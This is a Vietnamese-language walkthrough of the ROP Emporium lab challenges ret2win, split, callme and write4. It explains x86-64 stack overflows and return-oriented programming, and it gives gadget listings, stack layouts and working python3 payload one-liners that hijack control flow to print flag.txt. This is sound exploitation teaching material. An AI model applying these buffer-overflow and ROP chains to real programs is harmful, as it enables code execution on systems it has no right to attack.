





ROP Emporium
ROP Emporium là chuỗi challenge dùng để hướng dẫn cách xây dựng exploit (ROP gadget bypass NX - NonExecute) dành cho newbie, cụ thể là tự build rop gadgets.
Trước khi bắt đầu cần lưu ý một số thứ:
- Lab được sử dụng ở đây là x64_86, với các kiến trúc khác việc xây dựng rop gadget sẽ khác nhau
- Số lượng offset cần để smashstack và ghi đè địa trỉ trở về trong binary x86 là 40, do đó ta sẽ thêm 40 bytes “A” để ghi đè địa chỉ trả về.
- Lab cần vô hiệu hóa ASLR, ASLR sẽ khiến cho địa chỉ của binary trong bộ nhớ được phân bổ ngẫu nhiên khiến các địa chỉ trong gadget không chính xác (Cần lỗ hổng để leak base address và cộng thêm vào)
- Công cụ sử dụng chủ yếu gồm: Ghidra (RE), rabin2, radare2, Ropper, pwndbg.
- Cấu trúc stack sẽ biễu diễn từ thấp đến cao
[] -> thấp
....
[] -> cao
push rdi; sẽ thêm giá trị rdi vào stack và thanh ghi rsp (stack pointer) sẽ giảm
pop rdi; sẽ lấy giá trị tại đỉnh stack nơi rsp trỏ vào và giá trị rsp sẽ tăng
mov [rsi], rdi; sẽ lấy giá trị rdi lưu vào tại địa chỉ bộ nhớ lưu trong thanh ghi rsi (địa chỉ sẽ dùng [rsi])
- Khi xây dựng rop gadget riêng với kiến trúc x64 sẽ gặp lỗi segfault dù rằng gadget chain vẫn đúng, điều này là do stack alignment của thư viện glibc (bị tại movaps). Do đó trước khi gặp địa chỉ trả về cần phải align stack trước bằng gadget
ret;https://ropemporium.com/guide.html#Common%20pitfalls - Calling convention x64 khác x86. x64 sẽ lấy argument tại các thanh ghi rdi → arg1, rsi→ arg2, rdx→arg3…., xem tại đây: http://6.s081.scripts.mit.edu/sp18/x86-64-architecture-guide.html
- Khi kết thúc một routine (function) hay callee (hàm được gọi) thì sẽ gặp instruction ret, lúc này stack pointer sẽ tăng lên và lấy giá trị trở về tại đỉnh stack chính là hàm caller (hàm gọi), do đó khi ta ghi đè giá trị này thì sẽ kiểm soát được luồng chương trình theo ý muốn.
Ret2win
Challenge 1 khá đơn giản khi đã có function ret2win nhiệm vụ chỉ cần trả về địa chỉ của function đó là được

Tiến hành lấy các gadget cần thiết
$ rabin2 -s ret2win
[Symbols]
nth paddr vaddr bind type size lib name
―――――――――――――――――――――――――――――――――――――――――――――――――――――
...
36 0x00000756 0x00400756 LOCAL FUNC 27 ret2win
...
$ python3 Ropper.py -f ret2win
...
0x000000000040053e: ret;
Ta sẽ build stack như sau:
[A*8 ]
[.....]
[A*8 ] -> 40*A
[0x40053e] -> ret;
[0x400756] -> ret2win();
Truyền payload vào binary
python3 -c "import sys; sys.stdout.buffer.write(b'A'*40 + b'\x3e\x05\x40\x00' + b'\x00'*4 + b'\x56\x07\x40\x00' + b'\x00'*4)" | ./ret2win
Callme
Challenge 3 sẽ hướng dẫn gọi 3 hàm liên tiếp theo thứ tự, chỉ cần gọi đúng thứ tự thì sẽ in ra flag
Reverse bằng Ghidra ta sẽ thấy 3 hàm lần lượt là callme_one, callme_two, callme_three

Mỗi hàm cần truyền vào 3 tham số arg1, arg2 và arg3 lần lượt là 0xdeadbeef, 0xcafebabe và 0xd00df00d để có thể gọi hàm kế tiếp

3 hàm này sử dụng lazy binding để thay đổi địa chỉ trong GOT và sẽ gọi đến địa chỉ hàm trong libcallme.so, tuy nhiên ta chỉ cần gọi địa chỉ của hàm trong binary là được. Tiến hành lấy các gadget cần thiết
$ rabin2 -i callme
[Imports]
nth vaddr bind type lib name
―――――――――――――――――――――――――――――――――――――
...
3 0x004006f0 GLOBAL FUNC callme_three
...
7 0x00400720 GLOBAL FUNC callme_one
...
10 0x00400740 GLOBAL FUNC callme_two
...
$ python3 Ropper.py -f callme
...
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret;
0x00000000004006be: ret;
Sử dụng gadget pop rdi; pop rsi; pop rdx; ret; sẽ lấy lần lượt 3 vị trí kế tiếp trong stack làm argument cho hàm trả về của chúng ta
Ta sẽ build stack như sau:
[A*8 ]
[.....]
[A*8 ] -> 40*A
[0x40093c] -> pop rdi; pop rsi; pop rdx; ret;
[0xdeadbeef] -> rdi - arg1
[0xcafebabe] -> rsi - arg2
[0xd00df00d] -> rdx - arg3
[0x4006be] -> ret;
[0x400720] -> callme_one();
[0x40093c] -> pop rdi; pop rsi; pop rdx; ret;
[0xdeadbeef] -> rdi - arg1
[0xcafebabe] -> rsi - arg2
[0xd00df00d] -> rdx - arg3
[0x4006be] -> ret;
[0x400740] -> callme_two();
[0x40093c] -> pop rdi; pop rsi; pop rdx; ret;
[0xdeadbeef] -> rdi - arg1
[0xcafebabe] -> rsi - arg2
[0xd00df00d] -> rdx - arg3
[0x4006be] -> ret;
[0x4006f0] -> callme_three();
Truyền payload vào binary
python3 -c “import sys;sys.stdout.buffer.write(b'A'*40 + b'\x3c\x09\x40\x00' + b'\x00'*4 + b'\xef\xbe\xad\xde'*2 + b'\xbe\xba\xfe\xca'*2 + b'\x0d\xf0\x0d\xd0'*2 + b'\xbe\x06\x40\x00' + b'\x00'*4 + b'\x20\x07\x40\x00' + b'\x00'*4 + b'\x3c\x09\x40\x00' + b'\x00'*4 + b'\xef\xbe\xad\xde'*2 + b'\xbe\xba\xfe\xca'*2 + b'\x0d\xf0\x0d\xd0'*2 + b'\xbe\x06\x40\x00' + b'\x00'*4 + b'\x40\x07\x40\x00' + b'\x00'*4 + b'\x3c\x09\x40\x00' + b'\x00'*4 + b'\xef\xbe\xad\xde'*2 + b'\xbe\xba\xfe\xca'*2 + b'\x0d\xf0\x0d\xd0'*2 + b'\xbe\x06\x40\x00' + b'\x00'*4 + b'\xf0\x06\x40\x00' + b'\x00'*4)” | ./callme
Split
Challenge 2 hướng dẫn chúng ta truyền string có sẵn trong binary làm argument cho function cho chúng ta sử dụn

Ta thấy hàm system gọi /bin/ls tuy nhiên ở đây ta muốn lấy nội dung của flag nên ta sẽ lấy chuỗi /bin/cat flag.txt trong section .data của binary để truyền vào arg1 của function system(). Tiến hành lấy các gadget cần thiết
$ rabin2 -i split
[Imports]
nth vaddr bind type lib name
―――――――――――――――――――――――――――――――――――――
1 0x00400550 GLOBAL FUNC puts
2 0x00400560 GLOBAL FUNC system
...
$ rabin2 -z split
[Strings]
nth paddr vaddr len size section type string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
...
0 0x00001060 0x00601060 17 18 .data ascii /bin/cat flag.txt
$ python3 Ropper.py -f split
...
0x00000000004007c3: pop rdi; ret;
0x000000000040053e: ret;
Gadget pop rdi; ret; sẽ lấy vị trí kế tiếp trong stack (địa chỉ của chuỗi command in ra flag trong section .data của binary) làm argument cho hàm system
Ta sẽ build stack như sau:
[A*8 ]
[.....]
[A*8 ] -> 40*A
[0x4007c3] -> pop rdi; ret;
[0x601060] -> .data ascii "/bin/cat flag.txt" -> arg1
[0x40053e] -> ret;
[0x400560] -> system();
Truyền payload vào binary
python3 -c "import sys;sys.stdout.buffer.write(b'A'*40 + b'\xc3\x07\x40\x00' + b'\x00'*4 + b'\x60\x10\x60\x00' + b'\x00'*4 + b'\x3e\x05\x40\x00' + b'\x00'*4 + b'\x60\x05\x40\x00' + b'\x00'*4)" | ./split
Write4
Challenge 4 sẽ hướng dẫn một kỹ thuật chính là write-what-where gadgets, nơi ta sẽ ghi nội dung bất kỳ vào vị trí nào đó trong memory
Gadget này sẽ có dạng mov [reg2], reg1 nơi ta sẽ ghi nội dung của thanh ghi reg1 vào địa chỉ lưu trong thanh ghi reg2
Ở bài này ta có sẵn function print_file(*arg1) nhận giá trị tại địa chỉ của arg1 và truyền vào hàm fopen và mở file đó ra, do đó ta cần khiến thanh ghi rdi lưu địa chỉ mà tại đó chứa tên chuỗi “flag.txt” là được

Tiến hành lấy các gadget cần thiết
$ rabin2 -i write4
[Imports]
nth vaddr bind type lib name
―――――――――――――――――――――――――――――――――――――
...
4 0x00400510 GLOBAL FUNC print_file
$ rabin2 -S write4
[Sections]
nth paddr size vaddr vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
23 0x00001028 0x10 0x00601028 0x10 -rw- .data
$ python3 Ropper.py -f write4
...
0x0000000000400690: pop r14; pop r15; ret;
0x0000000000400628: mov qword ptr [r14], r15; ret;
0x0000000000400693: pop rdi; ret;
0x00000000004004e6: ret;
Sử dụng gadget pop r14; pop r15; ret; sẽ lấy lần lượt vị trí kế trong stack lưu vào r14 (địa chỉ vaddr của .data section vì nó có quyền ghi -rw-) và kế sau lưu vào r15 (chuỗi “flag.txt” vừa đủ 8 byte nên ta không cần thêm)
Sau đó ta gọi gadget mov qword ptr [r14], r15; ret; để lấy giá trị trong r15 lưu tại vị trí tại địa chỉ lưu trong r14 cũng chính là .data section.
Cuối cùng là truyền địa chỉ vào arg1 bằng gadget pop rdi; ret; với địa chỉ của .data section
Ta sẽ build stack như sau:
[A*8 ]
[.....]
[A*8 ] -> 40*A
[0x400690] -> pop r14; pop r15; ret;
[0x601028] -> -rw- .data -> r14
[b'flag.txt'] -> 8 byte "flag.txt" -> r15
[0x400628] -> mov qword ptr [r14], r15; ret; -> lấy 'flag.txt' lưu vào .data
[0x400693] -> pop rdi; ret; -> arg1
[0x601028] -> -rw- .data -> địa chỉ lưu 'flag.txt' -> arg1
[0x4004e6] -> ret;
[0x400510] -> print_file(*rdi);
Truyền payload vào binary
python3 -c "import sys;sys.stdout.buffer.write(b'A'*40 + b'\x90\x06\x40\x00' + b'\x00'*4 + b'\x28\x10\x60\x00' + b'\x00'*4 + b'flag.txt' + b'\x28\x06\x40\x00' + b'\x00'*4 + b'\x93\x06\x40\x00' + b'\x00'*4 + b'\x28\x10\x60\x00' + b'\x00'*4 + b'\xe6\x04\x40\x00' + b'\x00'*4 + b'\x10\x05\x40\x00' + b'\x00'*4)" | ./write4